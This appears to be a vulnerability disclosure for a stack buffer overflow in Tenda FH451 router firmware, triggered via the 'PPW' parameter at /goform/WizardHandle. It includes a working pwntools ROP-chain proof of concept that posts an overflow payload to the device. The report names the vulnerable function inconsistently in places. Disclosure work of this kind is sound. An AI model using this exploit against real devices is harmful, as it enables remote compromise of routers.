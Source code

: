 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/WizardHandle](http://0.0.0.0:80/goform/WizardHandle)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `fromAddressNat` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)

![Image 2](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle2.png)

![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle3.png)

This function accepts the `WANT` and `WANS` parameter from a POST request. Within `v45` == 2, this function accepts the `PPW` parameter from a POST request, which is assigned to `sub_3C434(v30, v5)`;. However, since the user has control over the input of `PPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `v5` array, which can lead to a program crash or potential exploitation.  

![Image 4](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle4.png)

The disassembled code of the function `sub_3C434` is as follows. It can be observed that this function does not perform bounds checking. It copies the `result` parameter byte-by-byte into the `a2` pointer parameter, which may potentially lead to a stack overflow.
Cross-referenced location: from the `fromWizardHandle` function, routed to `WizardHandle`, at line 18.
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle5.png)

Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 6](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)

It can be determined that the vulnerability occurs at the page path `goform/WizardHandle`.

## payload
```python
import requests
from pwn import *

libc = ELF('./squashfs-root/lib/libc.so.0')
system_offset = libc.symbols["system"]
base = 0x3fe36000

system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};
payload = b'a'*524 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str

ip = '0.0.0.0:80'
url = f"http://{ip}/goform/WizardHandle"
data = {"WANS":"-1","WANT":"2","PPW":payload}
ret = requests.post(url, data)
```

# reproduce
![Image 7](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle6.png)
![Image 8](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle7.png)
![Image 9](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle8.png)
